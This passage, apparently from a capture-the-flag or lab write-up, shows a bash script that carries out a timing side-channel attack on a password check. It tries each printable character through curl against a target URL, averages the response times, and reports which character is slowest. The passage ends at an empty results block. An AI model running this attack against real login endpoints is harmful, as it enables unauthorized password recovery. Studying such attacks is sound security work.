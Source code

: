 ```bash
do
  # Set up a new run
  echo "-------------------" >> average_timings.txt
  echo "Run $r" >> average_timings.txt
  echo "-------------------" >> average_timings.txt
  large_avg=0.0
  large_ascii=0
  small_avg=10.0
  small_ascii=0
  final_total=0

  # Run through the ASCII printable range
  # We can use urlencoding to avoid illegal characters in the URL
  # Run from SPACE (32) to ~ (126) - 95 characters
  for i in {32..126}
  do
    # Encode to hex with a %
    hex_val=$(printf "%x" $i)
    hex_val=%$hex_val
    passwd=$start_of_pass$hex_val
    next_url=$url$passwd
    echo "URL: $next_url"
    total=0
    for n in {1..20}
    do
      nxt_time=$(curl -s "$next_url" | sed -e "s/^.*<time>//" -e "s/<.*$//")
      echo "Time: $nxt_time" 
      total=$(echo "$total + $nxt_time" | bc -l) 
    done
    echo "Total: $total"
    avg=$(echo "scale=15;$total / 20.0" | bc -l)
    echo "Average: $avg"

    # Record which was the largest and smallest result
    if (( $(echo "$avg > $large_avg" | bc -l) ))
    then
      large_avg=$avg
      large_ascii=$i
    fi
    if (( $(echo "$avg < $small_avg" | bc -l) ))
    then
      small_avg=$avg
      small_ascii=$i
    fi

    # Keep a running total for overall average
    final_total=$(echo "$final_total + $avg" | bc -l)
  done

  # Record the results
  large_char=$(awk -v char=$large_ascii 'BEGIN{printf "%c", char}')
  small_char=$(awk -v char=$small_ascii 'BEGIN{printf "%c", char}')
  echo "Longest time was for $large_ascii ($large_char): $large_avg" >> average_timings.txt
  echo "Shortest time was for $small_ascii ($small_char): $small_avg" >> average_timings.txt
  final_avg=$(echo "scale=15;$final_total/95" | bc -l)
  echo "Average time for all characters: $final_avg" >> average_timings.txt
done
```
Running this gave me `A` as the letter taking the longest time for all 10 runs:
```
Average timings
===============
-------------------
```